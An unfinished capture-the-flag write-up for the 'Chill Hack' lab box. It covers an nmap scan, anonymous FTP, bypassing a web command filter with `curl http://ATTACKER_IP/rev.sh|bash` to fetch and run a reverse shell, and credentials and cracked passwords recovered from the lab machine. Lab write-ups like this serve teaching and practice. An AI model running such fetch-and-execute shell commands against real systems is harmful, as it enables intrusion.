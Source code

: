 # Chill Hack
(Flags are at the end of this write up)

### Investigate!
Initial scan shows port 21,22 and 80 open: 

Nmap scan report for 10.10.234.14
Host is up (0.058s latency).                                                 
                                                                             
    PORT   STATE SERVICE VERSION                                                 
    21/tcp open  ftp     vsftpd 3.0.3                                            
    | ftp-syst:                                                                  
    |   STAT:                                                                    
    | FTP server status:                                                         
    |      Connected to ::ffff:10.14.90.188                                      
    |      Logged in as ftp                                                      
    |      TYPE: ASCII                                                           
    |      No session bandwidth limit                                            
    |      Session timeout in seconds is 300                                     
    |      Control connection is plain text                                      
    |      Data connections will be plain text                                   
    |      At session startup, client count was 2                                
    |      vsFTPd 3.0.3 - secure, fast, stable                                   
    |_End of status                                                              
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)                       
    |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt           
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                         
    | ssh-hostkey:                                                               
    |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)               
    |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
    |_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Game Info
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

The ftp server contains the following note:<br />
![image](https://github.com/user-attachments/assets/4f8fa8bc-bcf5-4fd1-822a-9d3d8dd156ff)<br />
Directory enumeration reveals a `/secret` directory:<br />
![image](https://github.com/user-attachments/assets/822e6da3-2aa7-4d16-88a5-2b4946036515)<br />
There's a filter that won't allow me to run commands such as `ls` or `nc`. However I found a way to spawn a reverse shell. The `curl` command is not filtered. So create a `rev.sh` containing the code for a reverse shell, then open a netcat listener (I used port 4444),
and then run the command `curl http://ATTACKER_IP/rev.sh|bash`<br />
![image](https://github.com/user-attachments/assets/f4227d70-02b3-4338-8e8d-fe8d3afef683)<br />
Inside `/var/www/files/index.php`, I found a set of credentials:<br />
![image](https://github.com/user-attachments/assets/bbe00638-77db-4130-8cd1-22e48b59e7a6)<br />
root:!@m+her00+@db<br />
There are two hashes inside this database:<br />
![image](https://github.com/user-attachments/assets/a238661c-35c4-4d51-90f1-a43706357704)<br />
These passwords are respectively:<br />
`masterpassword`<br />
`dontaskdonttell`<br />
TO BE CONTINUED...





- User flag:
- Root flag:
